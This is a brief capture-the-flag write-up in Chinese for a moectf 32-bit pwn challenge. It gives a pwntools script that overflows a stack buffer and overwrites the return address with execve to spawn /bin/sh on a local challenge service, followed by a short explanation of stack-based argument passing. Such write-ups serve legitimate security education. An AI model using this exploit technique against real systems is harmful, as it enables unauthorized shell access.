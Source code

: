 # moectf 这是什么？32bit

by Maple

```python
from pwn import *
#p = process('./pwn')
p = remote('127.0.0.1',57062)
elf = ELF('./pwn')
p.sendline()

payload = b'b'*0x28+b'b'*0x4
payload+=flat([
    elf.sym[b'execve'],
    0,
    next(elf.search(b'/bin/sh')),
    0,
    0
    ])
p.sendline(payload)
p.interactive()
```

其实就是直接自己构造出来`execve(0,/bin/sh,0,0)`

先填充满，覆盖`rbp`，然后将返回地址覆盖为`execve`，32位程序用栈传参，所以直接按照栈的顺序依次存入就好